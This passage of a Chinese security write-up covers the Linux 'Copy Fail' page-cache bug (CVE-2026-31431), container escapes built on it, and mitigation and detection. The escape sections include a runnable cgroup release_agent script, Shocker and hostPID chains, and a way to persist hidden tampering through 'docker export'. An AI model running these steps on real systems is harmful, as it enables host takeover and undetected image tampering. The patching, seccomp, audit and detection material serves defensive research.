    image: python:3.11-slim
    command: ["sleep", "infinity"]
    securityContext:
      capabilities:
        add: ["DAC_READ_SEARCH"]
EOF
```

攻击过程（容器内执行 Python）：

```bash
kubectl exec -n copyfail-lab shocker-test -- python3 -c "
import os, struct, ctypes
# 1. Shocker: open_by_handle_at() 获取宿主机根目录 fd
libc = ctypes.CDLL('libc.so.6', use_errno=True)
# ... (构造 root inode handle, 调用 open_by_handle_at)
# 2. openat() 打开宿主机 /usr/bin/cat (只读即可)
# 3. Copy Fail 篡改 page cache
"
# 实验输出:
# [1] Host root fd: 4
# [+] Host / contents: ['.autorelabel', 'bin', 'boot', 'dev', 'etc', ...]
# [2] Host /usr/bin/cat fd: 7
# [3] Before: 7f454c46020101000000000000000000
# [4] After:  deadbeef020101000000000000000000
# [+] SUCCESS: Host /usr/bin/cat corrupted via Shocker + Copy Fail!
```

#### CAP_SYS_ADMIN + Copy Fail → cgroup release_agent 逃逸

```bash
# 部署带 CAP_SYS_ADMIN 的容器
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: sysadmin-test
  namespace: copyfail-lab
spec:
  containers:
  - name: test
    image: python:3.11-slim
    command: ["sleep", "infinity"]
    securityContext:
      capabilities:
        add: ["SYS_ADMIN"]
EOF
```

容器内利用 cgroup v1 release_agent：

```bash
kubectl exec -n copyfail-lab sysadmin-test -- bash -c '
# 挂载 cgroup 子系统
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp
mkdir /tmp/cgrp/x

# 确认 release_agent 可写
echo 1 > /tmp/cgrp/x/notify_on_release
# 设置 release_agent 为容器 upperdir 中的脚本路径
host_path=$(sed -n "s/.*upperdir=\([^,]*\).*/\1/p" /proc/self/mountinfo)
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# 写入逃逸命令
echo "#!/bin/sh" > /cmd
echo "id > /tmp/cgrp/output; hostname >> /tmp/cgrp/output" >> /cmd
chmod +x /cmd

# 触发
echo $$ > /tmp/cgrp/x/cgroup.procs
sleep 1 && echo 0 > /tmp/cgrp/x/cgroup.procs
sleep 1 && cat /tmp/cgrp/output
'
# uid=0(root) gid=0(root) groups=0(root)
# your-hostname
# ↑ 宿主机以 root 执行了命令
```

#### hostPID + CAP_SYS_PTRACE + Copy Fail

当容器共享宿主机 PID namespace 并拥有 `CAP_SYS_PTRACE` 时，可以通过 `/proc/1/root/` 访问宿主机的文件系统根目录。结合 Copy Fail 的 page cache 写入，可以篡改宿主机文件。

```bash
# 通过 /proc/1/root/ 获取宿主机文件 fd，然后 Copy Fail 篡改
kubectl exec -n copyfail-lab hostpid-test -- python3 -c "
import os
fd = os.open('/proc/1/root/usr/bin/cat', os.O_RDONLY)
# ... page_cache_write_4bytes(fd, 0, b'\xde\xad\xbe\xef')
"
```

#### 结论总结

| 特权配置 | 单独可逃逸 | + Copy Fail |
|---------|----------|------------|
| hostPath (readOnly) | ❌ 只读 | ✅ **绕过只读，篡改宿主机文件** |
| CAP_DAC_READ_SEARCH | ❌ 只能读 | ✅ **Shocker 读 → 读写** |
| CAP_SYS_ADMIN | ✅ (已知) | ✅ cgroup release_agent |
| hostPID + SYS_PTRACE | ✅ (已知) | ✅ /proc/1/root/ 篡改 |
| hostPID 单独 | ❌ | ❌ |
| SYS_PTRACE 单独 | ❌ | ❌ |
| NET_ADMIN / hostNetwork / hostIPC | ❌ | ❌ |

### 6.5 Docker 环境

前面的分析以 Kubernetes (containerd) 环境为主。Docker 环境在底层机制上完全相同——相同的 overlayfs layer 共享、相同的 page cache 全局性——因此 **跨容器 page cache 共享、只读 volume 绕过（`-v path:ro`）、Shocker 升级（`--cap-add DAC_READ_SEARCH`）** 等攻击路径在Docker环境也成立，我也在 Docker 26.1.3 (overlay2, xfs) 环境上验证过，效果与 K8s 一致（将 `kubectl exec` 替换为 `docker exec`、`readOnly: true` 替换为 `-v path:ro` 即可复现）。本节不再重复这些共通结论，聚焦 Docker 独有的架构差异。

#### dockerd 的架构差异

Section 6.3 中验证了 K8s 环境下 containerd 仅遍历目录元数据、不读取 snapshot 层文件数据。Docker 的 `dockerd` 则不同——作为单体守护进程，`docker export`、`docker commit`、`docker cp` 等管理 API 会以宿主机权限读取容器 overlay 文件系统的完整文件内容。如果 page cache 已被篡改，这些操作读取到的就是篡改后的数据。

需要先指出：**这一行为并非 Copy Fail 独有**。直接在容器内写文件也能修改内容，`docker commit`/`export` 同样会包含修改。Copy Fail 的真正独特价值将在下一节"隐蔽性"中展开。

#### `docker export` vs `docker commit`：持久化差异

两者对 Copy Fail 篡改的处理截然不同。

**`docker export` — 持久化**。它将容器的整个文件系统平铺写入 tar 文件，逐一读取所有文件内容。page cache 中的篡改数据被写入 tar 后就**永久固化**，脱离 page cache 生命周期：

```bash
docker run -d --name copyfail-test python:3.11-slim sleep infinity
docker cp poc_marker.py copyfail-test:/poc_marker.py
docker exec copyfail-test python3 /poc_marker.py /usr/lib/os-release
# [+] SUCCESS: page cache corrupted! first 4 bytes = deadbeef

# page cache 被篡改期间导出 — 篡改数据固化到 tar
docker export copyfail-test > tainted.tar
tar xf tainted.tar --to-stdout usr/lib/os-release | head -c 20 | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb

# drop_caches 后重新导出 — 新的 tar 恢复原始数据
echo 3 > /proc/sys/vm/drop_caches
docker export copyfail-test > clean.tar
tar xf clean.tar --to-stdout usr/lib/os-release | head -c 20 | xxd
# 00000000: 5052 4554 5459 5f4e 414d 453d 2244 6562  PRETTY_NAME="Deb

# 关键: 即使 page cache 已被清除, 第一个 tar 中的篡改数据永久存在
tar xf tainted.tar --to-stdout usr/lib/os-release | head -c 20 | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb  ← 永久固化
```

如果这个 tar 被用于 `docker import` 构建新镜像或分发到其他环境，篡改就完成了供应链传播。

**`docker commit` — 不持久化**。它创建新的镜像层，但只记录 upper layer 的变更；lower layer 以引用方式共享，文件数据不会被复制到新层。因此 committed 镜像中的 lower layer 文件仍然从 page cache（或磁盘）动态读取：

```bash
# 重新篡改 page cache
docker exec copyfail-test python3 /poc_marker.py /usr/lib/os-release

# commit 并从新镜像启动 — 读到篡改数据（来自 page cache）
docker commit copyfail-test copyfail-committed:test
docker run --rm copyfail-committed:test head -c 20 /usr/lib/os-release | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb

# drop_caches 后再启动 — 读到原始数据（从磁盘重新加载）
echo 3 > /proc/sys/vm/drop_caches
docker run --rm copyfail-committed:test head -c 20 /usr/lib/os-release | xxd
# 00000000: 5052 4554 5459 5f4e 414d 453d 2244 6562  PRETTY_NAME="Deb
```

#### 隐蔽性：多层检测机制的盲区

前面展示了 `docker export` 可以持久化篡改数据，但直接在容器内写文件再 export 也能达到同样效果。Copy Fail 的独特价值在于：篡改发生在 lower layer 的 page cache 中，不触发 overlayfs 的 Copy-on-Write，使得 Docker 的多层检测机制全部失效。

**1. `docker diff` 不可见**

```bash
docker diff copyfail-test
# A /poc_marker.py          ← 只显示 upper layer 变更
# C /usr/local/lib/...      ← Python 缓存文件
#                           ← /usr/lib/os-release 未出现！
```

`docker diff` 只检查 upper layer 变更。直接写文件会触发 CoW 写入 upper layer → `docker diff` 立即显示；Copy Fail 修改 page cache → `docker diff` 无感知。

**2. overlay2 layer 磁盘路径同样被"污染"**

```bash
LAYER=$(docker inspect copyfail-test --format '{{.GraphDriver.Data.LowerDir}}' \
        | tr ':' '\n' | xargs -I{} sh -c 'test -f {}/usr/lib/os-release && echo {}' | head -1)

head -c 16 "$LAYER/usr/lib/os-release" | xxd -p
# deadbeef54595f4e414d453d22446562    ← 宿主机读 layer 路径 = 读 page cache

echo 3 > /proc/sys/vm/drop_caches
head -c 16 "$LAYER/usr/lib/os-release" | xxd -p
# 5052455454595f4e414d453d22446562    ← drop_caches 后才能看到原始数据
```

layer 路径上的文件和容器内的文件共享同一 inode → 都经过 page cache。宿主机上任何通过内核文件系统读取的工具（`sha256sum`、`cat`、文件完整性检查）在 page cache 被篡改期间都会读到篡改后的数据，无法区分"真实磁盘内容"和"被篡改的 page cache"。

**3. Image layer digest 不变**

唯一不受影响的是 image layer 的压缩 blob（`docker image inspect` 中的 `RootFS.Layers` digest）——这些是独立的 tar.gz 文件，与 overlay2 中解压出的文件是不同 inode。镜像扫描工具（Trivy、Snyk 等）通常基于这些 layer blob 进行分析，因此**扫描原始镜像**不会检测到 Copy Fail 篡改。

#### 对比总结

| 维度 | Copy Fail 篡改 | 直接文件修改 |
|------|---------------|-------------|
| **`docker diff` 可见** | ❌ 不可见（lower layer） | ✅ 可见（upper layer CoW） |
| **`docker export` 持久化** | ✅ 篡改被固化到 tar 文件 | ✅ 始终 |
| **`docker commit` 持久化** | ❌ 仅 page cache 有效期间 | ✅ 写入 upper layer |
| **Image layer digest** | ✅ 不变（blob 未篡改） | ✅ 新层有新 digest |
| **镜像扫描（layer blob）** | ❌ 检测不到 | ✅ 可检测文件变更 |
| **page cache 生命周期** | 易失（重启/drop_caches 清除） | 不适用（已写入磁盘） |

Copy Fail 在此场景的价值不在于"能做到什么"（直接写文件也能做到），而在于"**做了什么而不被发现**"——`docker diff` 不报告、layer digest 不变、镜像扫描不触发，但 `docker export` 已经将篡改数据持久化并分发出去。

---

## 七、防御缓解

Copy Fail 的根本修复是**升级内核**（7.1）。如果无法立即升级，可通过禁用漏洞模块（7.2）进行临时缓解。在此基础上，容器环境建议额外部署 seccomp 策略阻止 AF_ALG socket 创建（7.3）。

需要注意的是，旧版 Docker 默认 seccomp、Kubernetes `RuntimeDefault`、SELinux targeted 策略以及 sysctl 参数均**不能防御**此漏洞。SELinux 虽然可以通过自定义策略模块（编写 `.te` 文件拒绝 `alg_socket` 类）系统级阻止 AF_ALG socket 创建，对裸机、VM 和容器环境均有效，但需要针对每个 SELinux domain 编写规则，部署和维护复杂度远高于 seccomp 或模块禁用方案。

### 7.1 根本修复：升级内核

唯一彻底的解决方案是升级到包含修复补丁 [`a664bf3d603d`](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5) 的内核版本。截至 2026 年 5 月，各主流发行版的修复状态如下：

| 发行版 | 状态 | 修复方式 | 参考 |
|--------|------|---------|------|
| **Ubuntu** 18.04–25.10 | ✅ 缓解已发布 | `kmod` 包更新禁用 algif_aead 模块；内核补丁待发布 | [Ubuntu Blog](https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available) |
| **Ubuntu 26.04** (Resolute) | ✅ 不受影响 | 已包含修复补丁 | [Ubuntu Blog](https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available) |
| **RHEL 9** | ✅ 内核补丁已发布 | RHSA-2026:13565 (2026-05-04) | [RHSB-2026-02](https://access.redhat.com/security/vulnerabilities/RHSB-2026-02) |
| **RHEL 10** | ✅ 内核补丁已发布 | RHSA-2026:13566 (2026-05-04) | [RHSB-2026-02](https://access.redhat.com/security/vulnerabilities/RHSB-2026-02) |
| **RHEL 8** | ✅ 内核补丁已发布 | RHSA-2026:13681 (8.8, 2026-05-05); RHSA-2026:14230 (8.6, 2026-05-06) | [RHSB-2026-02](https://access.redhat.com/security/vulnerabilities/RHSB-2026-02) |
| **Fedora 43** | ✅ 已修复 | kernel 6.19.12 | [Fedora Discussion](https://discussion.fedoraproject.org/t/is-the-copy-fail-cve-2026-31431-vulnerability-already-patched-in-fedora-43/190016) |
| **Debian** 11/12/13 | ✅ 内核补丁已发布 | DSA-6238-1, DSA-6243-1 | [Debian Tracker](https://security-tracker.debian.org/tracker/CVE-2026-31431) |
| **Alpine Linux** | ✅ 已修复 | Docker 29.4.2-r0 (edge); 内核包已修复 | [Alpine Security](https://security.alpinelinux.org/vuln/CVE-2026-31431) |
| **Oracle Linux** 7/8/9/10 | ✅ 内核补丁已发布 | ELSA-2026-50253/50254/50255 (含 UEK) | [Oracle CVE](https://linux.oracle.com/cve/CVE-2026-31431.html) |
| **AlmaLinux / Rocky** | ✅ 内核补丁已发布 | ALSA-2026:A001 (8), ALSA-2026:A002 (9) | [AlmaLinux Blog](https://almalinux.org/blog/2026-05-01-cve-2026-31431-copy-fail/) |
| **CentOS 8 (Stream)** | ✅ Live patch 可用 | KernelCare live patch | [CloudLinux](https://blog.cloudlinux.com/cve-2026-31431-copy-fail-kernel-update) |
| **SUSE / openSUSE** | ✅ 补丁已发布 | SUSE-SU-2026:1671 (2026-05-02) | [SUSE Response](https://www.suse.com/c/suse-responds-to-the-copy-fail-vulnerability/) |
| **Amazon Linux 2023** | ✅ 补丁已发布 | 内核安全更新 | [AWS Bulletin](https://aws.amazon.com/security/security-bulletins/rss/2026-026-aws/) |
| **Bottlerocket** (AWS) | ✅ 补丁已发布 | OS 更新 | [GitHub #4821](https://github.com/bottlerocket-os/bottlerocket/issues/4821) |
| **Arch Linux** | ✅ 已修复 | 滚动更新 (kernel >= 6.19.12) | [Arch Security](https://security.archlinux.org/CVE-2026-31431) |

> **ℹ️ 受影响的内核版本范围**
> 根据 [Alpine Security Tracker](https://security.alpinelinux.org/vuln/CVE-2026-31431)，受影响的精确版本范围：
> - 4.14 ≤ kernel < 5.10.254
> - 5.11 ≤ kernel < 5.15.204
> - 5.16 ≤ kernel < 6.1.170
> - 6.2 ≤ kernel < 6.6.137
> - 6.7 ≤ kernel < 6.12.85
> - 6.13 ≤ kernel < 6.18.22
> - 6.19 ≤ kernel < 6.19.12

**检查当前系统是否受影响**：

```bash
# 1. 检查内核版本是否在受影响范围
uname -r

# 2. 检查 algif_aead 是可加载模块还是内建模块
#    有输出 → 可加载模块; 无输出 → 内建模块
modinfo algif_aead 2>/dev/null && echo "==> LOADABLE module" || echo "==> BUILT-IN or not present"

# 3. 检查是否已有缓解措施
# Debian/Ubuntu: kmod 缓解
grep -r algif_aead /etc/modprobe.d/ 2>/dev/null
# RHEL/CentOS: initcall_blacklist
cat /proc/cmdline | grep -o 'initcall_blacklist=[^ ]*'
```

各发行版的系统更新命令：

```bash
# Debian/Ubuntu:
sudo apt update && sudo apt upgrade
# Alpine:
apk update && apk upgrade
# Arch:
pacman -Syu
# SUSE:
zypper update
# RHEL/CentOS:
sudo dnf update kernel && reboot
# Fedora:
sudo dnf upgrade --refresh && reboot
```

> **ℹ️ CISA KEV**
> 此漏洞已于 2026-05-01 被 [CISA 加入 KEV 目录](https://www.cisa.gov/known-exploited-vulnerabilities-catalog?field_cve=CVE-2026-31431)，截止修复日期为 2026-05-15。

### 7.2 临时缓解：禁用漏洞模块

如果无法立即升级内核，可以通过禁用 `algif_aead` 模块进行临时缓解。不同发行版对该模块的编译方式决定了缓解方法：

| 编译方式 | 代表发行版 | 判断依据 | 缓解方法 |
|----------|-----------|---------|---------|
| **可加载模块** (`=m`) | Ubuntu, Debian, Alpine, Arch, SUSE | `modinfo algif_aead` 有输出 | modprobe blacklist / rmmod |
| **内建模块** (`=y`) | RHEL, CentOS, Oracle Linux, Fedora, Amazon Linux | `modinfo algif_aead` 报错 | `initcall_blacklist` 启动参数 |

**可加载模块的发行版**（Ubuntu / Debian / Alpine / Arch / SUSE）：

```bash
echo "install algif_aead /bin/false" | sudo tee /etc/modprobe.d/disable-algif_aead.conf
sudo rmmod algif_aead 2>/dev/null || sudo reboot
```

Ubuntu 的 `kmod` 包安全更新会自动创建上述文件。

**内建模块的发行版**（RHEL / CentOS / Oracle Linux / Fedora / Amazon Linux）：

对于内建模块，`rmmod` 和 `/etc/modprobe.d/` blacklist **完全无效**：

```bash
grep CRYPTO_USER_API_AEAD /boot/config-$(uname -r)
# CONFIG_CRYPTO_USER_API_AEAD=y    ← 内建! 非模块

rmmod algif_aead 2>&1
# rmmod: ERROR: Module algif_aead is builtin.
```

必须使用 `initcall_blacklist` 内核启动参数：

```bash
# 禁用 algif_aead 初始化
grubby --update-kernel=ALL --args="initcall_blacklist=algif_aead_init"
reboot

# 更激进的方式: 禁用整个 AF_ALG 接口
grubby --update-kernel=ALL --args="initcall_blacklist=af_alg_init"
reboot
```

**验证缓解生效**（所有发行版通用）：

```bash
python3 -c "import socket; socket.socket(38,5,0)" 2>&1
# 预期: OSError: [Errno 97] Address family not supported by protocol
# 或:   OSError: [Errno 93] Protocol not supported
```

> **⚠️ 注意事项**
> - 以上缓解可能影响使用内核硬件加速加密的应用（如 OpenSSL 的 `afalg` engine、IPsec 的 `xfrm`）。大多数应用会自动 fallback 到用户空间加密实现，影响极小。
> - **KernelCare 用户**（CloudLinux）：`kcarectl --update` 即可应用 live patch，无需重启。验证：`kcarectl --patch-info | grep -i "copy.fail\|algif_aead\|CVE-2026-31431"`。

### 7.3 容器环境防御

如果宿主机内核已升级至修复版本（7.1）或已禁用漏洞模块（7.2），漏洞已从根源消除，以下容器层面的缓解**不是必须的**。但作为纵深防御，仍建议部署 Seccomp 策略阻止 `AF_ALG` socket——这一接口在容器中几乎没有合法使用场景，阻止它不仅防御 Copy Fail，也能降低内核加密子系统未来出现新漏洞时的攻击面。

> **⚠️ 默认安全机制不防御**
> 旧版 Docker（< 29.4.2）默认 seccomp profile、Kubernetes `RuntimeDefault`、SELinux targeted 策略均**允许** `socket(AF_ALG)` 和 `splice()` 调用，无法阻止漏洞利用。

#### 升级 Docker 容器运行时

Docker ≥ 29.4.2 [已更新默认 seccomp profile](https://github.com/moby/moby/pull/52494) 阻止 `AF_ALG` socket 创建。对于 Docker 用户，**升级是最简单的防御方案**，无需任何额外配置：

```bash
docker --version
# Docker version 29.4.3 或更高 → 已内置防御

# 验证
docker run --rm python:3.11-slim python3 -c "
import socket
try:
    socket.socket(38, 5, 0)
    print('[!] FAIL — AF_ALG not blocked')
except OSError as e:
    print(f'[+] AF_ALG blocked: {e}')"
```

> **⚠️ Docker 29.4.2 回归问题**
> 29.4.2 通过 seccomp 阻止 `socketcall(2)` 来防御 AF_ALG，但这破坏了 32 位程序和 i386 镜像（SteamCMD、Wine 等）。[29.4.3](https://github.com/moby/moby/releases/tag/docker-v29.4.3)（2026-05-06）修复了这一回归：改用 Docker 自有的 AppArmor/SELinux **容器策略**在 LSM 层阻止 AF_ALG，不影响 32 位程序。**建议直接升级到 ≥ 29.4.3**。
> 
> 注意：这里的 SELinux 规则是 Docker **自行添加到容器 profile 中**的 `alg_socket` 拒绝规则，不同于系统默认的 SELinux targeted 策略（后者不感知 AF_ALG，无法防御）。此外，在 RHEL/CentOS 等 SELinux 系统上需要在 `daemon.json` 中设置 `"selinux-enabled": true` 才能生效（默认未启用）；未启用时 Docker 会 fallback 到 AppArmor 规则（Ubuntu/Debian 等默认可用）。

> **ℹ️ Kubernetes 不受 Docker 版本影响**
> K8s 的 `RuntimeDefault` seccomp profile 由 kubelet 独立管理，升级 Docker 不会改变 K8s 容器的 seccomp 行为，需通过下方自定义 profile 进行缓解。

#### Seccomp 自定义策略部署

对于无法升级 Docker 的环境或 Kubernetes 集群，需手动部署自定义 seccomp profile。该方案仅拦截 `AF_ALG`（family=38）的 socket 创建，不影响 TCP/UDP 等正常网络通信，AF_ALG 接口在绝大多数容器化应用中没有合法使用场景。

自定义 seccomp profile（`block-af-alg.json`）：

```json
{
  "defaultAction": "SCMP_ACT_ALLOW",
  "syscalls": [
    {
      "names": ["socket"],
      "action": "SCMP_ACT_ERRNO",
      "errnoRet": 1,
      "args": [
        { "index": 0, "value": 38, "op": "SCMP_CMP_EQ" }
      ]
    }
  ]
}
```

> **💡 跨发行版适用性**
> Seccomp (seccomp-bpf) 是 Linux **内核级特性**（自 3.17 起稳定支持），不依赖任何特定发行版。上述 profile **适用于所有 Linux 发行版**，只要内核版本 ≥ 3.17、容器运行时支持 seccomp（Docker ≥ 1.10、containerd、CRI-O、Podman 均支持）。
> 对于非容器环境（裸机/VM），可通过 `libseccomp` 在应用启动时加载 profile，或使用 systemd 的 `SystemCallFilter=` 指令限制。

**Docker 手动部署**：

```bash
docker run --rm --security-opt seccomp=block-af-alg.json \
  python:3.11-slim python3 -c "
import socket
try:
    socket.socket(38, 5, 0)
    print('[!] FAIL')
except PermissionError as e:
    print(f'[+] AF_ALG blocked: {e}')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print('[+] TCP socket OK')
s.close()"
# [+] AF_ALG blocked: [Errno 1] Operation not permitted
# [+] TCP socket OK
```

**Kubernetes 部署**：

[Pod Security Standards (PSS)](https://kubernetes.io/docs/concepts/security/pod-security-standards/) 的三个级别（Privileged / Baseline / Restricted）均不限制 AF_ALG 的使用，必须手动部署自定义 profile：

```bash
cp block-af-alg.json /var/lib/kubelet/seccomp/
# k3s 路径: /var/lib/rancher/k3s/agent/seccomp/
```

Pod 配置中引用：

```yaml
spec:
  securityContext:
    seccompProfile:
      type: Localhost
      localhostProfile: block-af-alg.json
```

推荐通过 [Kyverno](https://kyverno.io/) 或 [OPA/Gatekeeper](https://open-policy-agent.github.io/gatekeeper/) 等准入控制器强制所有 Pod 使用自定义 profile，防止遗漏：

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-seccomp-block-af-alg
spec:
  validationFailureAction: Enforce
  rules:
  - name: check-seccomp
    match:
      any:
      - resources:
          kinds: ["Pod"]
    validate:
      message: "Pod must use block-af-alg seccomp profile (CVE-2026-31431 mitigation)"
      pattern:
        spec:
          securityContext:
            seccompProfile:
              type: "Localhost"
              localhostProfile: "block-af-alg.json"
```

---

## 八、攻击检测

### 8.1 Syscall 层审计与局限

最直接的检测思路是监控漏洞利用链中的关键 syscall。Auditd 可以记录 `AF_ALG` socket 创建事件：

```bash
# 持久化审计规则
cat > /etc/audit/rules.d/copyfail.rules <<'EOF'
-a always,exit -F arch=b64 -S socket -F a0=38 -k copyfail_af_alg
-a always,exit -F arch=b64 -S splice -k copyfail_splice
EOF
augenrules --load
```

在容器环境中 `AF_ALG` 的合法使用极少，Falco 等 eBPF 工具可以对容器内的 `AF_ALG` socket 创建做实时告警。但裸机/VM 环境中 OpenSSL `afalg` engine、`dm-crypt` 等正常使用 `AF_ALG` 的场景会持续产生误报。即使同时匹配 `AF_ALG` + `splice` 组合，也无法区分合法加密操作和漏洞利用——打开 `AF_ALG` socket 并调用 `splice` 不等于在利用漏洞，这些 syscall 本身是合法的内核接口。

**核心局限**：基于 syscall 的检测无法做到零误报——它只能说明"有人在使用 `AF_ALG`"，不能确认"有人在利用 Copy Fail"。更根本的问题是覆盖面：如第五章所述，页缓存覆写是一个反复出现的漏洞模式——针对 `AF_ALG` 的检测抓不到 Dirty Frag 的 `AF_KEY`，针对 `splice` 的检测无法区分合法零拷贝操作。黑名单特定 syscall 永远追不上新变种。

换一个思路——不检测攻击手段，而是检测**攻击结果**。无论攻击者利用的是哪个漏洞，对于仅修改页缓存的漏洞（Dirty Pipe、Copy Fail、Dirty Frag），篡改后的页缓存与磁盘上的原始内容之间必然产生不一致。这个不一致是可以被检测的。

### 8.2 通用检测：O_DIRECT 页缓存比对法

`O_DIRECT` 标志使 `read()` 绕过页缓存，直接从磁盘块设备读取数据。将 `O_DIRECT` 读取结果与普通 `read()` 结果比较，如果不一致，说明页缓存被篡改：

```
普通 read:    文件 → [Page Cache] → 用户 buffer    ← 读到篡改后的数据
O_DIRECT:    文件 → [磁盘]       → 用户 buffer    ← 读到原始数据

如果两者不同 → Page Cache 被非法修改
```

这一方法有三个关键优势：

1. **通用性**：能检测所有**仅修改页缓存**的漏洞（Copy Fail、Dirty Pipe、Dirty Frag 以及未来同类 0-day），不绑定特定攻击手段。Dirty COW 是例外——它会通过 page writeback 将修改写回磁盘，导致 O_DIRECT 读到的也是篡改后的数据，需要依赖传统文件完整性检查（`rpm -V` / AIDE / Tripwire）来检测
2. **确定性**：对于没有被任何进程以写模式打开的文件，page cache 与磁盘不一致是**绝对异常**——Linux 内核通过 `deny_write_access()` 保证文件不可能被同时写入和执行
3. **检测攻击结果而非手段**：即使攻击者使用未知漏洞篡改 page cache，只要篡改发生就能检测到

在 CentOS 8 (XFS) 实验环境中验证了 O_DIRECT 对 overlay2 层文件和宿主机 SUID 文件的检测能力。以宿主机 `/usr/bin/su`（SUID 文件）为例：

```bash
# Copy Fail 篡改 /usr/bin/su 的 ELF header
python3 poc_marker.py /usr/bin/su
# [+] SUCCESS: page cache corrupted! first 4 bytes = deadbeef

# O_DIRECT 比对立即检测到差异
# Page cache [0:16]: deadbeef020101000000000000000000  ← 篡改后
# O_DIRECT  [0:16]: 7f454c46020101000000000000000000  ← 磁盘原始 ELF header
# [ALERT] SUID binary TAMPERED! 4 bytes differ at: [0, 1, 2, 3]
```

技术实现要点：`O_DIRECT` 读取要求内存地址和读取长度按文件系统块大小（通常 4096）对齐，需要通过 `posix_memalign()` 分配对齐 buffer。ext4、XFS、Btrfs 和 overlay2（底层为 ext4/XFS 时）均支持 `O_DIRECT`；tmpfs 不支持（但不太可能是攻击目标）。

### 8.3 执行时拦截：fanotify Guard

O_DIRECT 比对解决了"能不能检测"的问题，但还需要回答"何时触发检测"。定期全量扫描不够及时，对每个文件 open 事件都做检查又开销太大。

Linux 的 `fanotify` 子系统提供了 `FAN_OPEN_EXEC_PERM` 事件（kernel >= 5.0）——在 `execve()` 触发时向用户空间发送权限请求，用户空间程序可以在读取文件内容、做完检查后回复 `FAN_ALLOW`（放行）或 `FAN_DENY`（拒绝执行）。将 O_DIRECT 比对与 fanotify 结合，就得到了一个**执行时实时拦截**方案：



设计决策说明：

- **仅监控 SUID/SGID 文件**：启动时扫描目标目录，建立 SUID/SGID 文件集合。非 SUID 文件的执行直接放行，零开销
- **跳过 root 执行**：root 已有最高权限，无需 SUID 提权。在容器逃逸场景中，篡改者是容器内 root，但受害者（执行被篡改 SUID 文件的人）是宿主机普通用户——Guard 正确拦截此场景
- **内核兼容性**：`FAN_OPEN_EXEC_PERM` 需要 kernel >= 5.0（RHEL 8 通过 backport 支持，已验证）。旧内核自动降级到 `FAN_OPEN_PERM`（拦截所有 open 事件，在用户空间过滤，开销略高但功能等价）
- **无需额外检查写入 FD**：如果 SUID 文件正在被包管理器更新，内核自身通过 `deny_write_access()` 拒绝 `execve()`（返回 `ETXTBSY`），不存在"合法更新导致误报"的场景

在 CentOS 8 (kernel 4.18.0) 上的实验结果：

```
2026-05-08 06:57:34 INFO Found 21 SUID/SGID files
2026-05-08 06:57:34 INFO Monitoring mount (FAN_OPEN_EXEC_PERM): /usr
2026-05-08 06:57:34 INFO Guard active [ENFORCE] (event_size=24, check_root=False)

# Copy Fail 篡改 /usr/bin/su 后，普通用户尝试执行:
2026-05-08 06:57:38 WARNING [ALERT] BLOCKED pid=2677362 uid=1000 /usr/bin/su
                            (page cache tampered at offset 0)
# 用户侧:
$ /usr/bin/su
bash: /usr/bin/su: 不允许的操作  (exit 126)
```

Guard 成功在 `execve()` 阶段拦截了被篡改的 SUID 二进制，阻止了提权。

#### 检测覆盖范围

fanotify Guard 基于 `FAN_OPEN_EXEC_PERM` 拦截 `execve()`，设计上仅覆盖 SUID/SGID 二进制执行。对照第五章的 7 条宿主机提权路径：

| 攻击路径 | fanotify Guard | O_DIRECT 定期扫描 | 原因 |
|---------|:--------------:|:----------------:|------|
| SUID/SGID 二进制覆写 | ✅ | ✅ | execve 时实时拦截 |
| /etc/passwd UID 篡改 | ❌ | ✅ | 配置文件，被 `open()`+`read()` 读取 |
| PAM 模块认证绕过 | ❌ | ✅ | 共享库通过 `dlopen()` 加载 |
| 共享库 Live-Patching | ❌ | ✅ | 通过 `mmap()` 映射，非 execve |
| /etc/profile 命令注入 | ❌ | ✅ | 登录 Shell `source` 读取 |
| Cron 脚本篡改 | ❌ | ✅ | 由 crond 通过 `execve()` 执行，但不属于 SUID 文件 |
| ld.so.preload 路径劫持 | ❌ | ✅ | 动态链接器在进程启动时读取 |
| 容器逃逸（层共享） | ❌ | ✅ | overlay lower layer 定期扫描 |

fanotify Guard 解决的是最危急的场景——阻止被篡改的 SUID 二进制执行提权。其余 6 条宿主机路径和容器场景，需要依靠 O_DIRECT 定期扫描来覆盖。扫描优先级建议：PAM 模块和共享库（`/lib64/security/`、`/lib64/*.so`）> 关键配置文件（`/etc/passwd`、`/etc/profile`、`/etc/ld.so.preload`）> cron 脚本和容器 lower layer。对于 lower layer 中的只读文件，page cache 与磁盘不一致 = 100% 异常，零误报。

> **ℹ️ 检测工具开源**
> `pagecache_guard.py` 及 PoC 脚本已开源：[github.com/0xlane/pagecache-guard](https://github.com/0xlane/pagecache-guard)
> 支持 dry-run 模式、syslog 输出、定期重扫描 SUID 文件等功能。详见仓库 README。

---

## 九、总结

Copy Fail 是一个典型的**跨子系统设计假设冲突**漏洞。`authencesn` 假设输出 buffer 是安全的内核内存，`algif_aead` 的 in-place 优化让输出 buffer 包含了 page cache pages，`splice` 把文件数据零拷贝地引入了这个路径——三者单独来看都是合理的设计，组合在一起却产生了一个持续 9 年的安全漏洞。

